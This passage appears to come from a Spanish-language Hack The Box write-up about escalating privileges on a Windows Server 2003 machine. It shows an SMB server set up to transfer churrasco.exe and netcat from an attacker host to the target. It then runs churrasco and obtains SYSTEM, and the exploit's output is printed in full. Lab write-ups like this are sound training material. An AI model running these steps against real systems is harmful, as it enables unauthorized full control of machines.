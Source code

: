 ```
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 648 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,191 MB
Page File: In Use:         279 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Como estamos ante un `Windows Server 2003` debemos usar `churrasco` para escalar privilegios [https://kashz.gitbook.io/kashz-jewels/services/windows-token-exploits#churrasco](https://kashz.gitbook.io/kashz-jewels/services/windows-token-exploits#churrasco). El binario lo he descargado de [https://the-pentesting-guide.marmeus.com/local_privilege_escalation/windows#token-kidnapping](https://the-pentesting-guide.marmeus.com/local_privilege_escalation/windows#token-kidnapping). Una vez descargado nos `montamos` un `servidor smb` en el `mismo directorio` donde está `churrasco.exe`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Antes de descargarnos el binarios vamos a crear una carpeta en el directorio temporal de windows para descargar el archivo desde ahí

```
C:\WINDOWS\Temp\test> copy \\10.10.16.16\smbFolder\churrasco.exe
```

Nos `copiamos` también el `netcat`

```
C:\WINDOWS\Temp\test>copy \\10.10.16.16\smbFolder\nc.exe
```

`Ejecutamos` el `binario` para comprobar que funciona correctamente

```
C:\WINDOWS\Temp\test>churrasco.exe -d "whoami"
churrasco.exe -d "whoami"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 472 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0xf18
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0xf10
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
nt authority\system
```

